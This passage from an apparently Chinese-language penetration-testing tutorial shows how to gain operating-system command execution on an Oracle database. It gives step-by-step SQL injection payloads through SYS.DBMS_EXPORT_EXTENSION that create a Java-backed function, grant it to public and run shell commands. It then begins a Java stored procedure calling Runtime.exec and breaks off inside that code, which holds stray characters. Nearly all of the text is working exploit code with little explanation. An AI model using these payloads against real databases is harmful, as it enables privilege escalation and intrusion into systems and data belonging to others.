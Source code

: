 


3：创建函数



```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual;
```




4：赋予函数执行权限



```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual;
```




5：执行系统命令



```
select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual;
```




### 存储过程执行命令



如果我们有create procedure权限，而不只是create session这么苦逼时，我们可以创建一个java class然后用创建一个过程来进行调用。



1：首先创建一个java class然后用procedure包装它进行调用



```
create or replace and resolve java source named JAVACMD as      
    import java.lang.*;      
    import java.io.*;      
    public class JAVACMD      
    {      
       public static void execmd(String command) throws IOException      
       {      
               Runtime.getRuntime().exec(command);      
       }      1
   }      1
   /
```
